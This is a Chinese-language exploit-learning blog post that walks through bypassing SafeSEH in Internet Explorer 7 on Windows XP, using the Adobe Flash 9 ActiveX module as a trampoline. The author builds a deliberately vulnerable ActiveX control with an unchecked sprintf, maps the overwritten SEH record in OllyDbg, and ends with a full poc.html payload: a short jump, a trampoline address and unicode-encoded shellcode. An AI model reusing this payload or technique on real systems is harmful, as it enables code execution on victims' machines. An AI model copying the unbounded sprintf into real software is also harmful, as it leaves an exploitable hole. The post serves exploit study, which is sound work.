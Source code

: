 ```yaml
---
layout:		post
title:		利用Adobe Flash Player ActiveX控件绕过SafeS.E.H
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
>浏览器: Internet Explorer 7  
>控件版本: Adobe Flash ActiveX 9.0.124  
>说明: 这篇文参考自《0Day》, 因为"利用Adobe Flash Player ActiveX控件绕过SafeS.E.H"  
这节有一些小坑, 不注意可能会实验失败, 所以写了这篇文来一步一步越过这些坑。  
<!-- more -->


### 0x00 前期准备

新建一个MFC ActiveX控件, 添加一个test方法

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x00.png)
![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x01.png)

在test方法实现里添加代码

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x02.png)
![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x03.png)

```
#include <string.h>
#include <windows.h>

DWORD MyException()
{
	printf("There is an exception");
	getchar();
	return 1;
}

void CVulnerAX_SEHCtrl::test(LPCTSTR str)
{
	//AFX_MANAGE_STATE(AfxGetStaticModuleState());
	// TODO: 在此添加调度处理程序代码
	printf("aaaa");//定位该函数的标记
	char dest[100];
	sprintf(dest,"%s",str);	
	int zero=0;
	__try
	{
	    zero=1/zero;
	}
	__except(MyException())
	{
	}
}
```

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x04.png)

如图设置好项目属性, 选择release版本, 禁用优化, 编译链接, 最后在cmd键入"Regsvr32 /path/to/activex.ocx"注册控件

```
<html>  
<body>  
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
  <param name="movie" value="1.swf" />
  <param name="quality" value="high" />
  <embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260"></embed>
</object>
<object classid="clsid:A15FD9CA-B0AA-4F51-9D26-B045CEEB9BA5" id="test"></object>  
<script>  
var s = "\u9090";
while (s.length < 45) {
s += "\u9090";
}
test.test(s);  
</script>  
</body>  
</html>
```

新建一个txt文本, 帖入以上代码, 更名为poc.html

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x05.png)

注意这里的"clsid:A15FD9CA-B0AA-4F51-9D26-B045CEEB9BA5", 在ActiveX工程里找到


### 0x01 分析栈布局

双击poc.html自动调用IE浏览器打开, 选择允许ActiveX控件

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x06.png)
![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x07.png)

来到这里, 用OllyDbg附加上去

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x08.png)

断下后选"E"找到VulnerAX_SEH.ocx, 点进去, 在printf("aaaa")下断运行

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x09.png)

断下后来到call sprintf, 跟随栈地址, 再往下一步

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0a.png)
![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0b.png)

可以看到数据已经copy到栈上, 起始地址0x01dcf4e4

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0c.png)

View->SEH chain, 定位到最近的SE Handler 0x01dcf560, 0x01dcf55c-0x01dcf4e4=124 byte

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0c.png)

Plugins->OllyFindAddr->Overflow return address->Find CALL/JMP [EBP+N], 选择"L", 找到0x300b2d1c这个跳板

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0d.png)

修改poc.html

```
var s = "\u9090";
while (s.length < 60) {
s += "\u9090";
}
s+="\u9090\u9090";
s+="\u2D1C\u300B";
```

再次打开, OD附加上去, 来到call sprintf再走一步, 现在SE Handler已经覆盖成跳板地址

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0e.png)

先在0x300b2d1c下断, 来到这里Shift+F9运行

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0f.png)

断下后跟进call, 可以看到这时回到了S.E.H结构

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x10.png)
![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x11.png)


### 0x02 exploit

SE Handler的跳板地址会干扰shellcode, 将shellcode整体放到下面, 用一个短跳跳过去

```
// junk(120 byte)+jmp short(2 byte)+junk(2 byte)+board(4 byte)+junk(8 byte)+payload(114 byte)
var s = "\u9090";
while (s.length < 60) {
s += "\u9090";
}
s+="\u0EEB\u9090";		# 0xEB0E->jmp +14(相对于下一条指令地址+14 byte)
s+="\u2D1C\u300B";		# 跳板
s+="\u9090\u9090\u9090\u9090";		# junk
s+="\ud231\u30b2\u8b64\u8b12\u0c52\u528b\u8b1c\u0842\u728b\u8b20\u8012\u0c7e\u7533\u89f2\u03c7\u3c78\u578b\u0178\u8bc2\u207a\uc701\ued31\u348b\u01af\u45c6\u3e81\u6146\u6174\uf275\u7e81\u4508\u6978\u7574\u8be9\u247a\uc701\u8b66\u6f2c\u7a8b\u011c\u8bc7\uaf7c\u01fc\u68c7\u2067\u0120\u7968\u7530\u686e\u7720\u6f6f\ue189\u49fe\u310b\u51c0\uff50\u90d7";
test.test(s);
```

如上组织250 byte的shellcode, OD再次附加上去, 来到call sprintf往下一步

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x12.png)

F9直接运行, pwn~

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x13.png)